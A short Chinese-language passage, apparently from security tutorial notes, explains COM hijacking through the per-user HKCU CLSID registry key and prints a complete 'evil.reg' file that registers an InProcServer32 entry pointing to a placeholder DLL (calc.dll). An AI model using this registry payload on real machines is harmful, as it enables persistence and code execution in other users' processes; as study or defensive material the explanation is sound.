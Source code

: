 ![](media/2363bbfb7354db272afe65e5d52e2ffc.png)

当进程寻找COM组件时，首先会寻找： HKCU\\Software\\Classes\\CLSID

我们直接在CLSID下新建一个对象ID，就能够劫持某个进程或多个进程。

evil.reg:

Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\\Software\\Classes\\CLSID\\{0A29FF9E-7F9C-4437-8B11-F424491E3931}]

[HKEY_CURRENT_USER\\Software\\Classes\\CLSID\\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\\InProcServer32]

\@="C:\\\\Temp\\\\calc.dll"
